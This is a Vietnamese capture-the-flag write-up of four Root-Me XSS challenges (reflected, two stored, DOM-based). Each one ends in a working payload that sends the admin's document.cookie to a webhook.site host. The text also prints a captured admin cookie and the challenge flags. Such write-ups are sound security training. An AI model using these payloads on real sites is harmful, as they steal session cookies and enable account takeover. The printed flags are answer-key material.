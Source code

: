 # XSS - Reflected
alert(’xtra stupid security’)

**Statement**

Find a way to steal the administrator’s cookie.

Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.
## Cách làm
Truy cập vào link http://challenge01.root-me.org/web-client/ch26/ ta sẽ thấy giao diện:

![image](https://github.com/aQ05/Write-up/assets/121664384/b0830567-58d6-46ea-b51a-c2c6b969bfd3)

Click vào từng mục, ta dễ dàng thấy ở mỗi mục có một thuộc tính `p` được gắn giá trị tương ứng từng mục:
![Screenshot 2023-11-11 145248](https://github.com/aQ05/Write-up/assets/121664384/a1ec5dec-0d3d-4d87-a7d3-c7dc92fd8c62)

Thử gán thuộc tính `p` đó cho câu lệnh `<script>alert(1)</script>` để kiểm tra xem nó có dính lỗi XSS hay không

![image](https://github.com/aQ05/Write-up/assets/121664384/8ed0492d-991e-4661-8f7e-d4e00a4c42e0)

Khi request đến `?p=<script>alert(1)</script>`, website hiển thị trang web lỗi và có một hyperlink thẻ <a> hiển thị nội dung ‘<script>alert(1)</script>’. Có thể thấy web đã dính lỗi XSS:

![image](https://github.com/aQ05/Write-up/assets/121664384/a7829112-fe4b-448b-883c-a15d6248a8ab)

Thử nhập `?p=ayuq' onmousemove='alert(1)`, page sẽ báo lỗi và hiển thị nội dung trong thẻ <a>.  (`onmousemove` khi trỏ chuột vào thì nó sẽ chạy đoạn js bên trong).

![image](https://github.com/aQ05/Write-up/assets/121664384/a756767e-6e32-4113-975d-a5b1aad6bb02)

Khi đó, ta thực hiện gửi cookie của admin vào host của mình.

Payload: `ayuq' onmousemove='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?".concat(document.cookie)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c6f69bd0-f38a-4781-9e82-610e23e907c2)

Thực hiện request với payload. Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

![image](https://github.com/aQ05/Write-up/assets/121664384/102832e4-d086-4119-a80b-e2f3e269d2f9)

![Screenshot 2023-11-11 160952](https://github.com/aQ05/Write-up/assets/121664384/a6a8c118-390f-4652-82db-1a58d76dc8e5)

## Flag
`r3fL3ct3D_XsS_fTw`
# XSS - Stored 1
So easy to sploit

**Statement:** Steal the administrator session cookie and use it to validate this chall.
## Cách làm
Truy cập vào link http://challenge01.root-me.org/web-client/ch18/

![image](https://github.com/aQ05/Write-up/assets/121664384/d4fb4482-d55a-4807-bb40-1083cacdb7e3)

Trước hết ta kiểm tra xem nó bị XSS ở đâu bằng cách nhập `<script>alert(1)</script>` vào từng trường và thấy dữ liệu được lưu lại khi nhập vào ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/6ca93f7e-d63f-4c67-81eb-ac44c5744587)

 Dính lỗi Stored XSS tại ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/9e9bb840-c70d-478f-9429-c705037b2f02)

Payload một đoạn script dẫn đến host của mình kèm theo admin, ở đây chúng ta sử dụng thẻ `img` với thuộc tính `onerror` (nếu đường link dẫn đến ảnh bị lỗi thì nó sẽ tự động thực thi đoạn script bên trong mà không cần thao tác của người dùng).

Payload: `<img src=a onerror='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?"+document.cookie'/>`

![image](https://github.com/aQ05/Write-up/assets/121664384/9524d672-fba8-4de7-a5e6-99cc94b3fe33)

Khi gửi ta sẽ thấy một cái ảnh bị lỗi và tự thực thi câu lệnh

![image](https://github.com/aQ05/Write-up/assets/121664384/45edbd9b-7a5e-4681-9ed1-cfe99b64e3d0)

![Screenshot 2023-11-11 214521](https://github.com/aQ05/Write-up/assets/121664384/80211e65-d540-4dbe-a361-5b9926b0b0f0)
## Flag
`NkI9qe4cdLIO2P7MIsWS8ofD6`

# XSS - Stored 2
Author

**Statement:**
Steal the administrator session’s cookie and go in the admin section.
## Cách làm
Truy cập link http://challenge01.root-me.org/web-client/ch19/

![image](https://github.com/aQ05/Write-up/assets/121664384/a0fd7f02-239e-4e30-be8d-e9b1b9834dca)

Giao diện ở đây tương tự như bài Stored 1, cũng là gửi message mà lưu lại chờ admin đọc. Trước hết ta kiểm tra xem nó bị XSS ở đâu bằng cách nhập `<script>alert(1)</script>` vào từng trường và thấy dữ liệu được lưu lại khi nhập vào ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/32391831-5ed1-4d3a-b5c8-a06aa0d551ed)

Kiểm tra thử thì thấy có điều đặc biệt ở đây là **Status: invite** ở mỗi post. Xem source thì thấy status được đặt trong thẻ `i`.

![image](https://github.com/aQ05/Write-up/assets/121664384/5f502bde-8b49-4244-85f5-3c4e0cbc4cab)

Và nó được xử lý dựa trên cookie này:

![image](https://github.com/aQ05/Write-up/assets/121664384/f0ce66a9-f1b0-47bc-93fd-d77073f55495)

Thử dùng Burp Suite xem có thể thay đổi được status không thì thấy status được gửi qua phần cookie và có thể tùy ý thay đổi:

![image](https://github.com/aQ05/Write-up/assets/121664384/20a3572d-e879-4c32-b592-edccee2bdea8)

 Thử payload XSS vào: `"><script>alert(1)</script><p class="`
 
![image](https://github.com/aQ05/Write-up/assets/121664384/64346860-330d-48b8-84fc-19db43675249)


Từ đó, ta đã có chỗ để tiêm XSS vào rồi. 

![image](https://github.com/aQ05/Write-up/assets/121664384/b27093ad-0b2b-43e9-9cb4-8a50d054ad22)

Tương tự các bài stored, dùng payload gửi cookie vào host của mình.

Payload:`"><img src=1 onerror='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?cmd="+document.cookie'/><p class="`

![Screenshot 2023-11-11 225413](https://github.com/aQ05/Write-up/assets/121664384/1e07790b-2e14-4401-9481-6857fc87974c)

Ta thu được admin cookie: `ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`. Có ADMIN_COOKIE, ta thay đổi vào cookie và `GET` pass:

`cookie: status=ayuQ; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`

![Screenshot 2023-11-12 003334](https://github.com/aQ05/Write-up/assets/121664384/9de048c4-c89e-4418-b8a3-49a05c220968)

## Flag
`E5HKEGyCXQVsYaehaqeJs0AfV`

# XSS DOM Based - Introduction
An introduction to DOM Based Cross Site Scripting attacks

**Statement**: Steal the admin’s session cookie.
## Cách làm
Truy cập link http://challenge01.root-me.org/web-client/ch32/

![image](https://github.com/aQ05/Write-up/assets/121664384/06f56fa5-8908-4e6c-964e-7f5f76eb36eb)

![image](https://github.com/aQ05/Write-up/assets/121664384/7a29797c-4c8a-4659-af98-a86172919029)

Thử kiểm tra XSS ở ô này bằng payload `';alert(1)//` thì thấy thành công:

![image](https://github.com/aQ05/Write-up/assets/121664384/59eb4aa4-52e2-46c2-afb2-2d29e91bb1ea)
Sau đó thì sử dụng document.location để đánh cắp cookie của admin: `'; document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?".concat(document.cookie);//`
## Flag
